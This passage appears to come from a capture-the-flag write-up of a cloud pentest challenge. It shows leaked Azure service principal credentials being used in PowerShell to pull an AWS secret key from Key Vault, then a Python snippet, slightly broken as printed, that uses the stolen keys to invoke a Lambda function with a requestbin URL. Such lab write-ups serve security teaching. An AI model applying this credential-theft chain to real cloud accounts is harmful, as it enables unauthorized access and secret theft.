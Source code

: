 We can, however, use Azure CLI and the credentials provided previously to get the secret from the vault. Referring to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Cloud%20-%20Azure%20Pentest.md#keyvault-secrets)(again), we can use `Get-AzKeyVaultSecret -VaultName olympurr-aws -Name AKIA5G4XMRW7TLT6XD7R -AsPlainText`. Vault name can be inferred from the vault URL, similar to how AWS S3 format their bucket URL using the bucket name. Key name can be inferred from reading the function code `secretClient.get_secret(keyName)`. **But wait**, we cannot run this directly because this is for Azure Powershell, and so far we only set up Azure CLI. These are two different tools and does not share stored credentials. To set up Azure Powershell, we can use the following Powershell commands:
```powershell
$azureAplicationId ="ee92075f-4ddc-4522-a12c-2bc0ab874c85"
$azureTenantId= "83e595f4-f086-4f2f-9de8-d698b6012093"
$azurePassword = ConvertTo-SecureString "kmk8Q~mGYD9jNfgm~rcIOMRgiC9ekKtNEw5GPaS7" -AsPlainText -Force
$psCred = New-Object System.Management.Automation.PSCredential($azureAplicationId , $azurePassword)
Enable-AzureRmAlias
Add-AzureRmAccount -Credential $psCred -TenantId $azureTenantId  -ServicePrincipal
```

If login is successful, you should see something like this:

![img_15.png](img_15.png)

Now, we can finally retrieve the secret from Azure vault: `fgQdSIETJp/yBKwWbmf2SprGa2eXWyqgkeeIdWtL`.

We can modify the function script to remove all the useless things and set the secret and url as a constant, and saving the Lambda invoke result as a variable `r`:
```python
import boto3
import requests
import json
import azure.functions as func
functionName = "event-webservice"
keyName = "AKIA5G4XMRW7TLT6XD7R"
secret = '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'  # gotten from azure vault
url = 'https://enqr1887xbuvq.x.pipedream.net/'  # Requestbin end point (but pretty useless in solving)
session = boto3.Session(
    aws_access_key_id=keyName,
    aws_secret_access_key=secret
)
details = {"url" : url}
r = lambda_client.invoke(
    FunctionName=functionName,
    InvocationType="RequestResponse",
    Payload=bytes(json.dumps(details), "utf-8")
)
```
We can do a test run and make sure our AWS credentials are valid and correctly invokes the Lambda function. This allows us to move on to AWS CLI and proceed from there. We will need this snippet again later.
